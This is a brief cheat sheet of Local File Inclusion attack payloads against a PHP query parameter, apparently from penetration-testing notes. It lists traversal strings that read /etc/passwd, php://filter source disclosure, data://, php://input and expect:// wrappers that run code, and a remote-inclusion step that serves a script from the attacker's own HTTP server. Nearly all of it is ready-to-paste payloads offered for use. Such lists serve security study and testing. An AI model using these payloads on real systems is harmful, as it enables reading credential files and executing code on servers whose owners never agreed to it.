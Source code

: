# Local File Inclusion Cheat Sheet

## Basic

### Absolute Path

http://example.com/query?var=/etc/passwd

### Directory Traversal

http://example.com/query?var=../../../../etc/passwd

http://example.com/query?var=....//....//....//....//etc/passwd

http://example.com/query?var=./var/../../../etc/passwd

http://example.com/query?var=..%2F..%2F..%2F..%2Fetc%2Fpasswd

## Filter

http://example.com/query?var=php://filter/read=convert.base64-encode/ressource=\<FILE\>

## Wrappers

### data

http://example.com/query?var=data://text/plain;base64,\<URL\_BASE64\_ENCODED\_SCRIPT\>

### input

Need allow\_url\_include<br>
Give the script as POST data<br>

http://example.com/query?var=php://input

### Expect

Need expect extension and allow\_url\_include<br>

http://example.com/query?var=expect://id

## Remote File Inclusion

python3 -m http.server \<LISTENING\_PORT\>
http://example.com/query?var=http://\<OUR\_IP\>:\<LISTENING\_PORT\>/\<SCRIPT\>

Same with **FTP**<br>




